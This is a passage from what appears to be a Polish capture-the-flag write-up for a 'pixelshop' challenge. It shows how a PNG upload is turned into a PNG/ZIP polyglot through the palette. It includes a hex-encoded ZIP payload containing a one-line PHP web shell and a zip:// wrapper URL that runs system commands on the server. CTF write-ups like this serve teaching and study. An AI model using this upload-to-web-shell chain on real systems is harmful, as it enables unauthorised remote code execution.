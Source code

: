 ```python
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

Teraz potrzebujemy sprawić żeby plik png był też plikiem ZIP.
Interesujący fakt na temat plików ZIP jest taki, że w przeciwieństwie do większości formatów, nagłówek pliku jest gdzieś pod koniec.
Więc unzip szuka od końca pliku w poszukiwaniu głównego nagłówka.
Dodatkowo możemy oznaczyć wszystko za nagłowkiem jako "komentarz" i unzip to zignoruje.
Co więcej nagłówek ZIP specyfikuje offsetu (od początku pliku) gdzie znajdują się skompresowane dane.
Ponieważ znamy "prefix" pliku png możemy ręcznie policzyć offsety w pliku ZIP tak żeby zaczynały się we wstrzykiwanej palecie kolorów.

Wykonujemy skrypt z przygotowanym payloadem zip:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

I dostajemy na serwerze plik:

![](exploit.png) 

Który może zostać odpakowany a w środku zawiera plik `s.php` z prostym php shellem:

```php
<?php $_GET['a']($_GET['b']); ?>
```

Z tym plikiem bezpiecznie leżącym na serwerze jako `847cf5ebb78615e61ab646189e3ffbff138801ad.png` możemy wreszcie uruchomić:

`http://pixelshop.pwning.xxx/?a=system&b=ls /&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Co daje nam przykładowo `system('ls /')`.

![](ls.png)

![](cat.png)
